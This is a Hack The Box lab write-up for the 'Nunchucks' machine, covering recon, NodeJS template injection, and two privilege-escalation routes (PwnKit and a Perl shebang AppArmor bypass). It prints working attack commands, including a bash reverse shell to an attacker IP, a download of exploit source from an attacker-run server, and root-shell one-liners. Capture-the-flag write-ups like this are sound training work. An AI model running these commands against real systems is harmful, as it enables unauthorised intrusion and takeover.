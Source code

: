 ```yaml
---
layout: single
title: Nunchucks  - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary AppArmor profile while executing scripts that include the shebang of the profiled application."
date: 2025-06-01
classes: wide
header:
  teaser: /img2/nunchucks.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - NodeJS SSTI (Server Side Template Injection)
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - AppArmor Profile Bypass (Privilege Escalation) (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.122
```

![](/img2/Pasted%20image%2020250601184103.png)

- Add domain to local DNS

```bash
echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c --hw=2271 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb/
```

![](/img2/Pasted%20image%2020250601194255.png)

- Add subdomain to local DNS

```bash
echo "10.10.11.122 store.nunchucks.htb" >> /etc/hosts
```

## Exploitation

- SSTI Injection

![](/img2/Pasted%20image%2020250601194519.png)

https://ctftime.org/writeup/34053

![](/img2/Pasted%20image%2020250601212336.png)

- Send reverse shell

```bash
echo -n "/bin/bash -i >& /dev/tcp/10.10.16.7/9000 0>&1" | base64
```

![](/img2/Pasted%20image%2020250601212739.png)

![](/img2/Pasted%20image%2020250601212819.png)


```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250601213525.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Find Capabilities

```bash
getcap -r / 2>/dev/null
```

![](/img2/Pasted%20image%2020250601224157.png)

- Try to take advantage of capabilitie

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

> Maybe, we have a restriction, so we can take advantage of wrong shebang in bash script.

- Exploit shebang perl bug

```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0); 
exec "/bin/sh"; 
```

```bash
chmod +x exploit.sh
./exploit.sh
```


![](/img2/Pasted%20image%2020250601213353.png)